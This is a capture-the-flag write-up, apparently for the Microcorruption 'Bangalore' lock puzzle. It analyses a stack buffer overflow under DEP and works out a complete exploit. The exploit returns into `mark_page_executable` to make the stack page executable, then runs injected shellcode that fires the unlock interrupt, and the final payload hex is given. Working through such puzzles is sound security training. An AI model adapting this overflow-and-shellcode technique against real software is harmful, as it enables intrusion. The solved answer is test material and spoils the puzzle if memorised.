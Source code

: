 # Bangalore
> sourse code [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow  
> **Mitigation**: DEP  

## Analysis
pseudo code for `main`, assembly code [here](./dump.asm)
```c
void main() {
    set_up_protection();
    login();
}
```

What do `<set_up_protection>`?
```c
void set_up_protection() {
    mark_page_executable(0);
    int i = 1;
    for (; i < 0x44; i++) {
        mark_page_writable(i);
    }
    for (; i < 0x100; i++) {
        mark_page_executable(i);
    }
    turn_on_dep();
}
```

This function set up the memory protection and make sure a page is never both writable and executable.

What do `<login>`?
```c
void login() {
    ...
    gets(sp, 0x30);     // gets password
    ...
}
```

`<login>` read 0x30 bytes to the stack and return address at `sp + 0x10`. Therefore, with the program able to get `0x30`, the input can be used to overwrite the return address.

### Thought #1: ROP chain
With the **DEP** protection and the program without obvious directy function to unlock the door, probably need **ROP** chain to achieve the goal.
> Stack buffer is no executable, so no jumpping back to the stack and execute.

#### ROP chain
The goal for the ROP chain should be calling `#0x10` with sr set to a certain value to specify the interrupt for unlock.
From both how [`<INT>`](../Hanoi/dump.asm) is called from other program and the interrupt needed from the [manual](https://microcorruption.com/public/manual.pdf):

```asm
457a <INT>
457a:  1e41 0200      mov	0x2(sp), r14        ; 0x2(sp) = argument for specifying the interrupt
457e:  0212           push	sr
4580:  0f4e           mov	r14, r15
4582:  8f10           swpb	r15
4584:  024f           mov	r15, sr
4586:  32d0 0080      bis	#0x8000, sr
458a:  b012 1000      call	#0x10
458e:  3241           pop	sr
4590:  3041           ret
```

The interrupt number is specified by the argument at `sp + 0x2`. The interrupt number for unlock is `0x7f`.
Then, the value for `sr` will be set accordingly to `arg` by `sr = (((arg << 8) & 0xff00) | ((arg >> 8) & 0xff)) | 0x8000`.
Therefore, to unlock the door, the value for `sr` should be `0x7f00 | 0x8000 = 0xff00`.

That is, we need to find the following assembly code in the program:
```asm
; shellcode
3240 00ff      mov	#0xff00, sr
b012 1000      call	#0x10
```


For the ROP chain to work, we have to find the gadget in the program. Find all the `ret` instruction in the program:
```asm
0010 <__trap_interrupt>
0010:  3041           ret
...
445e:  0f4e           mov	r14, r15
4460:  3041           ret
...
4474:  3150 0a00      add	#0xa, sp
4478:  3041           ret
...
4498:  3b41           pop	r11
449a:  3041           ret
...
44ae:  3150 0a00      add	#0xa, sp
44b2:  3041           ret
...
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret
...
44d8:  3150 0600      add	#0x6, sp
44dc:  3041           ret
...
4508:  3b41           pop	r11
450a:  3041           ret
450c:  3041           ret
...
450e <conditional_unlock_door>
450e:  0f43           clr	r15
4510:  3041           ret
...
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```
However, none of them is useful for the ROP chain. None of them can give us the ability to modiry the `sr` register; thus, unable to use the **ROP** chain to unlock the door.

### Thought #2: make stack executable
Instead of using the executable section in program, just make the stack executable and the shellcode on the stack directly.

Stack pointer, `sp`, is `0x3fee`, when receiving the input and will take input of size `0x30`. Check which page is the stack in:
(use simple [c code](./test.c) to check pages/memories protection)
```text
rwx	page	address
...
w:	63		0x3f00
w:	64		0x4000
w:	65		0x4100
w:	66		0x4200
w:	67		0x4300
x:	68		0x4400
x:	69		0x4500
x:	70		0x4600
...
```

Therefore, the target is to set the page, `63`, to executable and put the shellcode, `mov #0xff00, sr; call #0x10`, at the beginning of the input and use the buffer from `0x10` to first replace the original return address and set up ROP chain to make *paget 63* executable.

#### Make page executable
Try to call `<mark_page_executable>` directly,
```asm
44b4 <mark_page_executable>
44b4:  0e4f           mov	r15, r14
44b6:  0312           push	#0x0
44b8:  0e12           push	r14
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret
```

However, this way we will need to put the page number to `r15` which is impossible.

Looking into the code right before it trigger the interrupt, it pushes `0x0` and `page number` on the stack at `0x44b6 and 0x44b8`. That is, the stack layout should be as the following:
|                |                 stack                  |
| :------------: | :------------------------------------: |
|                |                  ...                   |
| return address |                 0x44ba                 |
|                |                  0x0                   |
|                |                   63                   |
|                | address when return back from `0x44ca` |

After marking the stack executable, the program should jump back to the start of the input where we put the `shellcode`. Therefore, the input should be as following,
| address | `sp`  |                            value                            |
| :-----: | :---: | :---------------------------------------------------------: |
|  3fee   |  +0   |                         *shellcode*                         |
|   ...   |  ...  |                          (padding)                          |
|  3ffe   | +0x10 |      `0x44ba`, address within `<mark_page_executable>`      |
|  4000   | +0x12 |               63, page to mark as executable                |
|  4002   | +0x14 |                             0x0                             |
|  4004   | +0x16 | `0x3fee`, execute *shellcode* after marking page executable |

## Exploit
```python
In [18]: shellcode = b'\x32\x40\x00\xff\xb0\x12\x10\x00'
In [21]: def b2h(b):
    ...:     return ''.join(f'{c:02x}' for c in b)
    ...: 

In [22]: b2h(shellcode.ljust(0x10, b'a') + p16(0x44ba) + p16(63) + p16(0) + p16(0x3fee))
Out[22]: '324000ffb01210006161616161616161ba443f000000ee3f'
```
